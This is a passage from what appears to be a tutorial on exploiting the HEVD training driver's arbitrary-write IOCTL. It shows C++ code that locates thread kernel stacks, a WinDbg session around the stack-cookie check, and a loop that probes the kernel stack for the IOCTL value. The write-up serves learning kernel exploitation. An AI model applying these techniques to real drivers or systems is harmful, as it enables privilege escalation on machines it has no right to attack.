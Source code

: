 ```cpp
            stackLimit = pProcessInfo->Threads[i].StackLimit;
            printf("\tStack base 0x%llx\n", stackBase);
            printf("\tStack limit 0x%llx\n", stackLimit);
            break;
        }
    }

    if (!pProcessInfo->NextEntryOffset) {
        pProcessInfo = NULL;
    } else {
        pProcessInfo = (PSYSTEM_EXTENDED_PROCESS_INFORMATION)((ULONG_PTR)pProcessInfo + pProcessInfo->NextEntryOffset);
    }
}
```

Step 2 can be done through static code reversing or in a dynamic way.  
For me, the dynamic way was easier. I've put a breakpoint at the start of our vulnerable function and looked at the data on the stack. I've found that in our case, the value of the current IOCTL is in a consistent place on the stack relative to RSP. Therefore it can be used as an anchor for our calculations.  
From the images above we can see that ```xor rax, rsp``` (rax == cookie) happens at offset 0x866FB in the HEVD.sys driver. So in windbg we enter ```bp hevd+866FB``` and trigger the function:
```
2: kd> bp hevd+866FB
2: kd> g
Breakpoint 0 hit
HEVD+0x866fb:
fffff805`2d8b66fb 4833c4          xor     rax,rsp
1: kd> r rsp
rsp=ffff928d8b2d1540
1: kd> s rsp L1000 07 20 22
ffff928d`8b2d17e8  07 20 22 00 00 00 00 00-c0 db c6 36 0c e4 ff ff  . "........6....
ffff928d`8b2d18d0  07 20 22 00 00 00 00 00-e5 8d c1 28 05 f8 ff ff  . "........(....
ffff928d`8b2d1998  07 20 22 00 0c e4 ff ff-00 00 00 00 80 00 10 00  . ".............
ffff928d`8b2d1ab8  07 20 22 00 cc cc cc cc-00 9e 11 0c 88 00 00 00  . ".............
```
The IOCTL is 0x222007 so we search it from the current RSP and up, and we've found multiple results.

Step 3 is pretty simple and looks like this:
```cpp
printf("[+] Searching down from stack limit: 0x%llx\n", stackLimit);
intptr_t stackSearch = (intptr_t)stackLimit - 0xff0;

BOOL foundControlCode = FALSE;
while (stackSearch < (intptr_t)stackLimit - 0x10) {
    wwwBuf.what = stackSearch;
    wwwBuf.where = &whereBuffer;

    bResult = DeviceIoControl(hDevice, HEVD_IOCTL_ARBITRARY_WRITE, &wwwBuf, sizeof(wwwBuf), NULL, 0, &junk, (LPOVERLAPPED)NULL);
    if (whereBuffer == HEVD_IOCTL_ARBITRARY_WRITE) {
        printf("[*] Found CTL_CODE in the stack at: 0x%llx\n", stackSearch);
        foundControlCode = TRUE;
        break;
    }
    stackSearch += sizeof(intptr_t);
}
if (!foundControlCode) {
    ...
    goto _cleanup;
}
```
